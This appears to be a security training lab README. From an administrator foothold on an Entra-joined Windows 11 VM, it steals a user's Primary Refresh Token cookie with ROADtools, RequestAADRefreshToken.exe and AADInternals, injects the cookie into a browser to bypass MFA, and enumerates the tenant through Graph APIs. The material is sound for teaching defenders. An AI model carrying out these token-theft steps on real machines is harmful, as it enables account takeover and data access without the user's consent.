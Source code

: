 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@YOURDOMAIN.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

3. Make sure you are verified:
    1. open Edge and make sure you have your profile logged in
    2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
        ![verifi](verifyAccount.png)
#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1. Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows

#### Option 1: Steal PRT Cookie using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# this will AUTOMATICALLY open a browser and log in as that user (!)
roadtx browserprtauth -url https://entra.microsoft.com --prt-cookie <eyJh... PRT COOKIE>
```

#### Option 2: Steal PRT Cookie using RequestAADRefreshToken.exe tool
Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Option 3: Steal PRT Cookie using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
Import-Module AADInternals
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken
```

## Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

See demo video here

# Next Step - Reconnisance

```powershell
Import-Module AADInternals
$prtToken = Get-AADIntUserPRTToken # get a new PRT Cookie if you used it already
# using the new PRT Cookie, get an access token
# method 1:
roadtx browserprtauth --prt-cookie $prtToken # this will automatically get new access token

# method 2:
$prtToken = Get-AADIntUserPRTToken
roadrecon auth --prt-cookie $prtToken -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"

# method 3:
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
roadrecon auth --access-token $at # AT for msgraph is needed

# Once you got an access token, look at it
type .roadtools_auth
type .roadtools_auth | roadtx describe

# start the recon on the tenant
roadrecon gather

roadrecon gui


# bonus 2: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration via API...

You can start with:
```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```

